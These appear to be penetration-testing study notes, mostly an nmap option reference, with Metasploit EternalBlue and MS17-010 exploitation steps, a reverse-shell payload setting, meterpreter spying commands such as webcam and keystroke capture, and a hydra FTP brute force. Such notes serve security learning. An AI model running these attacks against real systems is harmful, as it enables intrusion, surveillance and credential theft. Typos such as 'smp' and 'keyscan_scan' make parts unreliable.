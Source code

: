 
1. Metasploit:
	1. nmap –A –sC 192.168.1.2 #( -sC nmap default scripts )
	2. msfconsole
		1. search
		2. use exploit/windows/smb/ms17_010_psexec
		3. show options
		4. set RHOSTS 192.168.1.2
		5. exploit
2. Scanning Network
	1. Port states:
		1. open - indicates that an application is listening for connections on the port. The primary goal of port scanning is to find these.
		2. closed - indicates that the probes were received but there is no application listening on the port
		3. filtered - indicates that the probes were not received, and the state could not be established.
		4. unfiltered - indicates that the probes were received but a state could not be established. In other words, a port is accessible, but Nmap is unable to determine whether it is open or closed.
		5. open|filtered - indicates that the port was filtered or open, but Nmap couldn’t establish the state
		6. closed|filtered - indicates that Nmap is unable to determine whether a port is closed or filtered
	2. TCP Header:
		1. 20-60 bytes
			1. Source port address: 16 bits, destination port address: 16 bits
			2. Sequence number: 32 bits
			3. Acknowledgement number: 32 bits
			4. HLEN: 4 bits, Reversed: 6 bits, URG/ACK/PSH/RST/SYN/FIN, Windows size: 16 bits
			5. Checksum: 16 bits, Urgent pointer: 16 bits
			6. Options and padding
	3. TCP Handshake:
		1. SYN -> SYN+ACK -> ACK
	4. Connection termination
		1. FIN -> FIN+ACK -> ACK
	5. Scan types:
		1. -sA - ACK scan
		2. -sF - FIN scan
		3. -sI - IDLE scan
		4. -sL - DNS scan (list scan)
		5. -sN - NULL scan
		6. -sO - Protocal scan
		7. -sP - Ping scan
		8. -sR - RPC scan
		9. -sS - SYN scan
		10. -sT - TCP Connect scan
		11. -sW - TCP Window port scan
		12. -sX - XMAS scan
		13. -PI - ICMP ping
		14. -Po - No ping
		15. -PS - SYN ping
		16. -PT - TCP ping
		17. -oN - Normal output
		18. -oX - XML output
		19. -T0 - serial slowest scan
		20. -T1 - serial slowest scan
		21. -T2 - serial normal speed scan
		22. -T3 - parallel normal speed scan
		23. -T4 - parallel, fast scan
		24. -sn - disable port scanning
		25. -iL - scan targets from file (next arg)
		26. -iR 100 - scan 100 random hosts
		27. --exclude - exclude listed hosts
		28. -sM - TCP maimon scan
		29. -Pn - disable host discovery - port scan only
		30. -PA - TCP ACK discovery
		31. -PU - UDP discovery
		32. -PR - ARP discovery
		33. -n - never do DNS resolution
		34. -sV - version detection
		35. -b - FTP bounce attack
	6. -sU - UDP scan
		1. open - any UDP response from target port
		2. open|filtered - no response received (even after retransmission)
		3. closed - ICMP port unreachable error (type3, code3)
		4. filtered - other UCMP unreachable errors (type3, code 1,2,9,10 or 13)
	7. Host and port options:
		1. --excludefile <exclude_file>
	8. Ping options:
		1. -PE - ICMP echo request ping
		2. -PP - icmp timestamp ping
		3. -PM - icmp address mask ping
		4. -P0, -PN, -PD - don't ping
		5. -R - require reverse
		6. --dns-servers - specify DNS servers
	9. Real-time information options:
		1. --verbose, -v - verbose mode
		2. --version-trace 
		3. --packet-trace
		4. --debug, -d
		5. --interactive
		6. --noninteractive
	10. OS fingerprinting:
		1. -O - OS fingerprinting
		2. --osscan-limit - limit system scanning
		3. --osscan-guess, --fuzzy - more guessing flexibility
		4. -A - additional, advanced and Aggressive
3. Vulnerability Assessment
	1. searchsploit (@KaliLinux) - exploitDB
		1. e.g. searchsploit vsftpd 2.3.4
	2. Nessus
4. Post Exploitation
	1. meterpreter
		1. webcam_stream
		2. keyscan_scan
		3. screenshot
		4. screenshare
		5. run winenum
		6. shell
5. FTP exploitation
	1. ftp <ip_address>
		1. anonymous / blank
		2. ls
		3. get flag.txt
	2. hydra ‐l mike ‐P /usr/share/wordlists/rockyou.txt –v 10.10.223.20 ftp
6. SMB exploitation
	1. ports: 139, 445 - netbios-ssn, microsoft-ds
	2. sudo nmap ‐‐script smb‐os‐discovery.nse 10.10.50.26
	3. Smbclient ‐L < IP >
		1. password: blank
	4. Smbclient //10.10.50.26/share
	5. sudo nmap --script vuln <192.168.0.1 >
		1. ms17-010
		2. exploit/windows/smp/ms17_010_eternalblue
		3. set payload windows/x64/shell_reverse_tcp
7. Telnet Exploitation
	1. port 23
	2. telnet $IP $PORT
8. Privileges escalation in NFS
	1. nmap -sV --script=nfs-showmount 192.168.1.102
	2. apt-get install nfs-common && showmount -e 192.168.1.102